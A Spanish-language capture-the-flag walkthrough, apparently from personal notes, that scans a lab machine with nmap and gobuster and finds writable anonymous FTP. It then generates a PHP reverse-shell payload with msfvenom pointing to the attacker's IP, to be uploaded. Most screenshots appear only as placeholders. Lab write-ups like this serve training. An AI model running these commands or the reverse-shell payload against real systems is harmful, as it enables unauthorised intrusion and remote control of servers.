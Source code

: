 ![[Pasted image 20250724141738.png]]

`nmap -p21,22,80 -sCV 10.10.120.69 -oN targeted`

![[Pasted image 20250724141804.png]]
### HTTP

`http://10.10.120.69/`

![[Pasted image 20250724141835.png]]
#### Fuzzing Web

`gobuster dir -u http://10.10.120.69/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250724142012.png]]

`http://10.10.120.69/files/`

![[Pasted image 20250724142034.png]]

Se accede al directorio: `ftp` y no se encuentra nada.

![[Pasted image 20250724142235.png]]

---
## Explotación
### FTP

En la enumeración se observa que en el puerto *21* se encuentra el servicio **FTP**, con el inicio de sesión anónimo activo.

`ftp anonymous@10.10.120.69`

![[Pasted image 20250724142436.png]]

`ls`

![[Pasted image 20250724142502.png]]

En el directorio `ftp`, tenemos todos los permisos.

`cd ftp`

`ls`

![[Pasted image 20250724142619.png]]

Se procede a generar un *payload malicioso*.

`msfvenom -p php/reverse_php LHOST=10.8.184.124 LPORT=1234 -f raw > pwned.php`

Se sube al directorio `ftp`.
